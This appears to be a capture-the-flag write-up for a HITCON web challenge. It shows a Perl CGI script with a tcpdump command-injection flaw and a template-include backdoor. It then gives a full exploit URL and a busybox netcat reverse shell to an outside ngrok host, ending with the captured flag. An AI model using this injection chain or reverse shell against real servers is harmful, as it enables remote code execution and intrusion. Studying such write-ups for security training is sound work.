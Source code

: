 # Description
Author: [@orange_8361](https://twitter.com/orange_8361)
```
Virtual Public Network [500pts]
Vulnerable Point of Your Network :)
http://13.231.137.9
```

# Hint
```html
<!-- Hint for you :)
<a href='diag.cgi'>diag.cgi</a>
<a href='DSSafe.pm'>DSSafe.pm</a>  -->
```

# diag.cgi
```perl
#!/usr/bin/perl
use lib '/var/www/html/';
use strict;

use CGI ();
use DSSafe;


sub tcpdump_options_syntax_check {
    my $options = shift;
    return $options if system("timeout -s 9 2 /usr/bin/tcpdump -d $options >/dev/null 2>&1") == 0;
    return undef;
}
 
print "Content-type: text/html\n\n";
 
my $options = CGI::param("options");
my $output = tcpdump_options_syntax_check($options);
 

# backdoor :)
my $tpl = CGI::param("tpl");
if (length $tpl > 0 && index($tpl, "..") == -1) {
    $tpl = "./tmp/" . $tpl . ".thtml";
    require($tpl);
}
```
# Command Injection
```perl
return $options if system("timeout -s 9 2 /usr/bin/tcpdump -d $options >/dev/null 2>&1") == 0;
```
# Post on Author's blog
[http://blog.orange.tw/2019/09/attacking-ssl-vpn-part-3-golden-pulse-secure-rce-chain.html](http://blog.orange.tw/2019/09/attacking-ssl-vpn-part-3-golden-pulse-secure-rce-chain.html)

# Timeline
- Setup Docker container (apache)
- Read author's blog :p
- Discover absolute path of `./tmp/` template dir: `/usr/lib/cgi-bin/tmp/` (thanks to Docker)
- Execute `ls /`, reverse tcp using busybox: `/bin/busybox nc 0.tcp.ap.ngrok.io 12523 -e /bin/sh`
- Read flag: `cd / && ./\$READ_FLAG\$`

# Final works
`http://13.231.137.9/cgi-bin/diag.cgi?options=-r$x="/bin/busybox nc 0.tcp.ap.ngrok.io 12523 -e /bin/sh",system$x%23 2>/usr/lib/cgi-bin/tmp/vinhjaxt.thtml <&tpl=vinhjaxt`
```bash
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 34036
whoami
www-data
cd /
ls
$READ_FLAG$
FLAG
bin
boot
dev
etc
home
initrd.img
initrd.img.old
...

./\$READ_FLAG\$
hitcon{Now I'm sure u saw my Bl4ck H4t p4p3r :P}

```
Please read author's post for more informations.
